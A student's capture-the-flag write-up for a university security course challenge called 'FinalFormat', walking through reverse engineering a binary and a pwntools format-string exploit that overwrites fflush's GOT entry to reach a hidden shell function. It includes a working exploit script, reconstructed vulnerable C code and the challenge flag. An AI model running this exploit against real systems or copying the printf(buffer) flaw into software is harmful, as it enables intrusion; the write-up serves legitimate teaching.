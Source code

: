 # FSI-CTFS: FinalFormat
 
#### Exploit created by José Miguel Isidro (up202006485)
The **FinalFormat** CTF was a continuation of the format strings CTFs done in lab classes, but this was the ultimate challenge.

#### **Checksec**

Let's start by checking if the program as any security features enabled.

![](/FinalFormat/imgs/checksec.png)

The checksec returned the same as both of week #7 CTFs
- Architecture is x86
- Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- No address randomization
- Regions in the memory with RWX permissions

### **Reverse Engeneering the Program** [(main.c)](/FinalFormat/main.c)
> This time, we did not have access to the program's code, contrary to our lab lessions. But using objdump and gdb, we could try to reverse engineer the program in order to find what the original code might have been.

> By perfoming the following command in bash, we can disassemble the program and find out its code and functions (output shown below)
```bash
objdump -d program
```

![](/FinalFormat/imgs/objdump_d.png)

Now, we know there is a main function with a similiar code to the last ctf challenge's function, and we also have found an old_backdoor function containing a system call to open a bash shell. So now, we have an idea of what the original code was like, and I believe it might have looked something like the following code below.

```c
#include <stdio.h>
#include <stdlib.h>

void old_backdoor() {
  puts("Backdoor activated");
  system("/bin/bash");
  return;
}

int main() {
  char buffer[60];
  
  printf("There is nothing to see here...");
  fflush(stdout);
  scanf("%32s", &buffer);
  printf("You gave me this:");
  printf(buffer);
  fflush(stdout);

  return 0;
}
```

So, as you can see, the printf call is still vulnerable to a format string attack. The main difference here is that the shellcode is no longer inside the main function and is insteade wrapped in the old_backdoor function. And the program never calls this function. So how could we access it?


We have learned with the last ctf challenge that we can write arbitrary code by abusing the printf function format string vulnerability, specifically with the help of the %n format string parameter. 
>Quoting the famous printf bugs' section of its man page:
```
"Code such as printf(foo); often indicates a bug, since foo may contain a % character.  If foo comes  from  
untrusted  user  input,  it may contain %n, causing the printf() call to write to memory and creating a security hole."
```
So now we know we can write to memory by abusing this vulnerability. But what can we do if the program never even calls the old_backdoor function?

### **Exploitation**

We will redirect the code execution to our old_backdoor function, changing the inital flow of the program. We can do this by overwriting the fflush address for the GLIBC with the address for the old_backdoor function.
> Therefore, we need to found out the fflush address for the GLIBC.

By perfoming the same command in bash as we did before, but this time using the -R (-R, --dynamic-reloc  Display the dynamic relocation entries in the file), we can find out the fflush address (output shown below)
```bash
objdump -R program
```

![](/FinalFormat/imgs/objdump_R.png)

> fflush GBLIC -> 0x0804c010

The hardest part was coming up a payload to do this, but then I found out you don't even have to write the payload yourself. With the help of the pwn library, this exploit becomes unbelievably easy! But first, let's get the last address we need with the help of gdb.


>Let's disassemble the old_backdoor function and find out its address (**WHAT** we want to write).
```gdb
disassemble old_backdoor
```

![](/FinalFormat/imgs/disas_backdoor.png)

> old_backdoor function -> 0x08049236

Now that we have our addresses, we just need to write the exploit. After searching online, I found out the [pwn](https://docs.pwntools.com/en/stable/fmtstr.html) library has some great funcions that makes this part very easy to do. But first, we'll need to find out what the offset is before we write anything to memory.
> This can be achieved with help of this [script](/FinalFormat/offset.py):

```python
from pwn import *

def exec_fmt(payload):
     p = process("./program")
     p.sendline(payload)
     return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
```
The script will then print out the offset, which in this case was 1, so I manually typed that in.

### **The Exploit** [exploit.py](/FinalFormat/exploit.py)

Now that we found out the offset, we can use the fmtstr_payload function from the pwn library to help us write our payload.
> This is the python script used for the exploit.
```python
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
else:
    p = remote("ctf-fsi.fe.up.pt", 4007)

what = 0x08049236 # old_backdoor function
where = 0x0804c010 # fflush@GLIBC_2.0
offset = 1

payload = fmtstr_payload(offset, {where: what})
p.recvuntil(b"...")
p.sendline(payload)
p.interactive()
```

As you can see, the 'what' and 'where' variables were used to store the addresses we found out before and the 'offset' was also used as a parameter in the **fmtstr_payload** function.
> After testing the script locally, we were granted with a shell.

![](/FinalFormat/imgs/exploit_local.png)

> Now, let's test it on the ctf server (change the LOCAL variable to False).

![](/FinalFormat/imgs/exploit_server.png)

> **SUCCESS!** We can now print the flag using /bin/cat --> flag{a48b2ab48ea9270fc5ba928b8bab50a9}
